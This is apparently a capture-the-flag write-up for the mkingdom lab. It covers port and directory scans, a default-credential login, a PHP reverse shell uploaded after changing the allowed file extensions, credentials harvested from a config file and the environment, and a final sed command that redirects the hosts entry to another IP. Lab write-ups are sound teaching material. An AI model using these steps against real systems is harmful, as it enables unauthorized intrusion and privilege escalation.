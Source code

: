 # Nmap

```shell-session
# Nmap 7.60 scan initiated Mon Aug  5 17:58:42 2024 as: nmap -sT -p- -oN nmap.txt -vvv 10.10.129.43
Nmap scan report for ip-10-10-129-43.eu-west-1.compute.internal (10.10.129.43)
Host is up, received arp-response (0.00053s latency).
Scanned at 2024-08-05 17:58:42 BST for 2s
Not shown: 65534 closed ports
Reason: 65534 conn-refused
PORT   STATE SERVICE    REASON
85/tcp open  mit-ml-dev syn-ack
MAC Address: 02:D9:98:8A:01:13 (Unknown)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Aug  5 17:58:44 2024 -- 1 IP address (1 host up) scanned in 2.79 seconds
```

Website was just a picture and text, so I decided to enumerate.

# gobuster

```shell-session
===============================================================
root@ip-10-10-128-194:~# gobuster dir -u http://10.10.129.43:85/ -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.129.43:85/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/08/05 18:00:33 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/app (Status: 301)
/server-status (Status: 403)
===============================================================
2024/08/05 18:00:35 Finished
===============================================================
```

/app brought me to a button that redirected to /app/castle/ 

Enumerating further:

```shell-session
root@ip-10-10-128-194:~# gobuster dir -u http://10.10.129.43:85/app/castle/ -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.129.43:85/app/castle/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/08/05 18:06:38 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/application (Status: 301)
/concrete (Status: 301)
/packages (Status: 301)
/robots.txt (Status: 200)
/updates (Status: 301)
===============================================================
2024/08/05 18:06:41 Finished
===============================================================
```

/concrete was a large directory, buy access is denied to the individual files held inside

/castle/ had a link to a login page at the bottom.

# Login

After failing to find a good syntax to get hydra going, I tried some common credentials

admin:admin didn't work, but admin:password did.

Found file upload, but can't upload phps. Tried changing the extension of a reverse shell but it couldn't get it to work through burp. After some tinkering with it I decided to look around. In system settings I was able to change allowed upload extensions and then upload my php shell. 

# shell

Not much I could do as the www user in the shell. Found 2 users in home folder that I couldn't access so I needed more info.

Transferred linpeas.sh over to the machine via a python http server

Got a password from the mkingdom database in /concrete/config/database.php

'password' 'toadisthebest'

I logged into toad and ran linpeas again and ididn't get much out of it. I checked the env 

```shell-session
toad@mkingdom:~$ env
env
APACHE_PID_FILE=/var/run/apache2/apache2.pid
XDG_SESSION_ID=c2
SHELL=/bin/bash
APACHE_RUN_USER=www-data
OLDPWD=/tmp
USER=toad
LS_COLORS=
PWD_token=aWthVGVOVEFOdEVTCg==
MAIL=/var/mail/toad
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
APACHE_LOG_DIR=/var/log/apache2
PWD=/home/toad
LANG=en_US.UTF-8
APACHE_RUN_GROUP=www-data
HOME=/home/toad
SHLVL=2
LOGNAME=toad
LESSOPEN=| /usr/bin/lesspipe %s
XDG_RUNTIME_DIR=/run/user/1002
APACHE_RUN_DIR=/var/run/apache2
APACHE_LOCK_DIR=/var/lock/apache2
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env
```
and found a password hash that translated to `ikaTeNTANtES'

I was able to use it to log into mario, I couldn't read the user.txt in mario's home folder but I remembered seeing that toad's ran with root privs on linpeas earlier.

I changed to toad and grabbed the flag.



cat /etc/hosts | sed 's/127.0.1.1\t\mkingdom.thm/10.13.57.25\t\mkingdom.thm/g' > /tmp/replace_hosts

